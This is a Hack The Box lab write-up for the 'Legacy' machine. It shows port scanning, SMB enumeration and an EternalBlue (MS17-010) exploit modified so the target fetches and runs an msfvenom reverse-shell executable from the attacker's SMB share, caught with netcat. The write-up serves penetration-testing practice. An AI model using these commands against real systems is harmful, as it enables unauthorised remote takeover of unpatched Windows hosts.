# [Legacy](https://app.hackthebox.eu/machines/2)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.4 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.4 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.4
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.4
```

The TCP quick scan returns the following:

![nmap1](./legacy/nmap1.png)

Seems like only SMB/NetBIOS is open. Start an enumeration:

```bash
smbclient -N -L //10.10.10.4
smbclient -U '%' -L //10.10.10.4
smbclient -U 'sfd%sfd' -L //10.10.10.4
```

![smb1](./legacy/smb1.png)

Anonymous access does not seem to be allowed for any shares. Trying to look at RPC also does not work:

```bash
enum4linux 10.10.10.4
crackmapexec smb 10.10.10.4
```

The full `nmap` returns an interesting value:

![nmap2](./legacy/nmap2.png)

It seems like this machine may be vulnerable to MS17-010, which is eternal blue. A good resource for this is https://github.com/worawit/MS17-010:

```bash
# clone repo
git clone https://github.com/worawit/MS17-010.git
# run exploit PoC
python2.7 MS17-010/zzz_exploit.py 10.10.10.4
```

![smb2](./legacy/smb2.png)

It seems like the exploit PoC works. Next modify the `zzz_exploit.py` exploit to get a reverse shell:

```python
def smb_pwn(conn, arch):  
  payload = 'cmd /c \\\\10.10.14.25\\BUBBA\\bubba.exe'
  print('[!!!] executing service: ' + payload)
  service_exec(conn, payload)
```

Then generate a new payload, host it for download & start a listener:

```bash
# generate service payload to respond to Windows Service Manager API
msfvenom -p windows/shell_reverse_tcp \
         LPORT=6969 LHOST=10.10.14.25 EXITFUNC=thread \
         --platform windows \
         -a x86 \
         -f exe-service \
         --service-name bubba \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start listener
nc -nvlp 6969
# run the exploit again
python2.7 MS17-010/zzz_exploit.py 10.10.10.4
```

After running this exploit again, the following shell is given:

![root1](./legacy/root1.png)

There is also another way into this box using MS08-067 that aso provides an immediate SYSTEM shell:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-067

